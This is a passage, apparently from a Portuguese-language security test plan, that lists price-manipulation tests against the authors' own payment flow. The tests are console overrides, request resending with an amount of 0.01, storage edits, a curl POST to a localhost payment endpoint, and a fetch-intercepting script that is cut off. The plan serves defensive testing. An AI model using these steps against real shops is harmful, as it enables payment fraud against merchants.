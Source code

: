 ### 4. TESTES DE PENETRAÇÃO PRÁTICOS

#### Teste 1: Manipulação via Console
1. Abrir DevTools (F12)
2. Ir para Console
3. Executar: `pricing = {totalCost: 0.01}`
4. Tentar finalizar pagamento

#### Teste 2: Interceptação de Requisição
1. Abrir Network tab
2. Iniciar processo de pagamento
3. Right-click na requisição de pagamento
4. "Edit and Resend" com amount: 0.01

#### Teste 3: Modificação de Storage
1. Application > SessionStorage
2. Encontrar chaves relacionadas a preços
3. Modificar valores
4. Recarregar e tentar pagamento

#### Teste 4: cURL Malicioso
```bash
curl -X POST 'http://localhost:5000/api/mercadopago/create-card-payment' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer TOKEN' \
  -d '{
    "orderId": "KR2025123456",
    "amount": 0.01,
    "email": "test@test.com"
  }'
```

### 5. FERRAMENTAS DE PENTEST

#### A. Ferramentas Gratuitas
1. **OWASP ZAP** - Proxy e scanner
2. **Burp Suite Community** - Interceptação HTTP
3. **Chrome DevTools** - Análise frontend
4. **Postman** - Testes de API

#### B. Ferramentas Profissionais
1. **Burp Suite Professional**
2. **Metasploit**
3. **Nessus**

### 6. SCRIPT DE TESTE AUTOMATIZADO

```javascript
// Script para testar vulnerabilidades automaticamente
(function testPriceManipulation() {
    console.log('🔍 Iniciando teste de manipulação de preços...');
    
    // Teste 1: Modificar variáveis globais
    try {
        window.pricing = {totalCost: 0.01};
        console.log('✓ Variável pricing modificada');
    } catch(e) {
        console.log('✗ Erro ao modificar pricing:', e);
    }
    
    // Teste 2: Interceptar fetch
    const originalFetch = window.fetch;
    window.fetch = function(...args) {
        if (args[0].includes('payment') && args[1]?.body) {
```
